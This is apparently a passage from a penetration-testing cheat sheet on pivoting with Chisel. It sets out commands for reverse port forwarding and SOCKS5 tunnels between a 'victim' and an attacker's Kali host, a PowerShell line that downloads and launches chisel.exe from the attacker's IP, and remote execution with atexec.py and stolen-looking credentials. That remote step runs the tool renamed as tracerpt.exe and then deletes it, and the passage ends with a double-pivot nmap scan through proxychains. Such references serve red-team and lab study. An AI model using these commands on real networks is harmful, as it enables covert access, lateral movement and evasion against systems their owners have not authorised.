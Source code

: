 Reverse local port `1111` (on Victim) to local port `2222` (on Attacker):

```
$ ./chisel server -p 8000 -v --reverse
PS > (New-Object Net.WebClient).DownloadFile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > Get-FileHash -Alg md5 "$env:userprofile\music\chisel.exe"
PS > Start-Process -NoNewWindow -FilePath "$env:userprofile\music\chisel.exe" -ArgumentList "client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111"
or
Cmd > [cmd /c] start "" /b chisel.exe ...
```

Socks5 proxy in server mode:

```
alice@victim:~$ nohup ./chisel server -p 8000 --socks5 &
snovvcrash@kali:~$ ./chisel client 10.10.13.38:8000 [127.0.0.1:1080:]socks
```

Socks5 proxy in server mode when direct connection to Victim is not available (not relevant as Chisel supports socks5 in client mode now):

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse
alice@victim:~$ nohup ./chisel client 10.10.13.37:8000 R:127.0.0.1:8001:127.0.0.1:8002 &
alice@victim:~$ nohup ./chisel server -v -p 8002 --socks5 &
snovvcrash@kali:~$ ./chisel client 127.0.0.1:8001 [127.0.0.1:1080:]socks
```

Socks5 proxy in client mode:

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5 [--auth snovvcrash:'Passw0rd!']
alice@victim:~$ nohup ./chisel client [--fingerprint <BASE64_STRING>] [--auth snovvcrash:'Passw0rd!'] 10.10.13.37:8000 R:[127.0.0.1:1080:]socks &
```

Quicky:

```
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'start "" /b C:\Windows\tracerpt.exe server -p 8000 --socks5 --auth snovvcrash:"Passw0rd!"'
$ sudo chisel client -v --auth snovvcrash:'Passw0rd!' 192.168.1.11:8000 127.0.0.1:1080:socks
$ atexec.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'taskkill /IM:tracerpt.exe /F && del C:\Windows\tracerpt.exe'
```


#### Double SOCKS Proxy

![Double SOCKS Proxy Scheme](/.gitbook/assets/003.png)

```
snovvcrash@kali:~$ ./chisel server -p 8000 --reverse --socks5
alice@pivot1:~$ nohup ./chisel client 10.10.13.37:8000 R:socks &
alice@pivot1:~$ nohup ./chisel server -p 8000 --reverse --socks5 &
bob@pivot2:~$ nohup ./chisel client 192.168.1.11:8000 R:socks &
snovvcrash@kali:~$ cp /etc/proxychains4.conf .
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ echo 'socks5 127.0.0.1 1080' >> proxychains4.conf
snovvcrash@kali:~$ proxychains4 -f ./proxychains4.conf nmap -Pn -sT 192.168.3.33 -p445
```
